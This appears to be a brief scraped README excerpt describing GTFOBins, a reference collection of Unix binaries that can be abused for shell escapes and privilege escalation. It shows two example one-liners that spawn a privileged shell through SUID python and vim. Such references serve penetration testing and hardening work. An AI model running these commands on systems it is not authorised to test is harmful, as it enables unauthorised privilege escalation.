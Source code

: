 https:// gtfobins.github.io

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

``
SUID python

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

SUID vim

```shell
vim -c ':!/bin/sh'
```

